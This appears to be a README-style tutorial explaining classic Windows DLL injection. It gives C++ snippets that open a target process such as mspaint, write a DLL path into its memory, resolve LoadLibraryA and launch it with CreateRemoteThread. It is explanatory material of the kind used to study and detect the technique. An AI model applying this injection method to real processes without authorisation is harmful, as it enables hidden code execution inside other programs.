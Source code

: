 # DLL INJECTION:

![Memory-Process](../IMG/CODEDIAGRAM.png).

1. First Open the process we want injected:
In the code we have two parameters the PID and the path of dll:
```c++
printf("usage: dll.injector.exe <path-to-dll> <PID> \n");
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID) // Procces to open the injection
LPVOID allocated_mem = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1, (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE); // Allocation the memory space with all the parameters.
WriteProcessMemory(hProcess, allocated_mem, dll_path, strlen(dll_path) + 1, NULL);
```

2. Obtain the virtual addres:
![Diagram](../IMG/Virtualaddress.png)

We must to obtain the "LoadLibrary" API inside the memory space of the mspaint process.  First figura which DLL has the "LoadLibrary" API. In the
documentation we can see that it's reside int the [Kernel32] DLL. We get pointer to the base address of the [Kernel32] DLL.
`HMODULE kernel32Base = GetModuleHandleW(L"kernel32.dll");`

For know how far is the LoadLibrary we use the `FARPROC load_library_address = GetProcAddress(kernel32Base, "LoadLibraryA");`
This magic return the virtual address of the specified API, is called [Export directory] whitin the DLL and lookup the export table to reitreve the address of the API.
We user to see the kernel32 the APP Dependency Walker.
Is the same the load_library_address to mspaint.exe[Malware] process than the mspaint.exe [Paint process]. The address is the same cause the windows do the process in the same address.
![Example-of-the-process](../IMG/Process.png).

Create a remote thread `HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)load_library_address, allocated_mem, 0, NULL);`
All this parameters are to def execpt 3:
- hProcess
- load_library_address //entry point
- allocated_mem


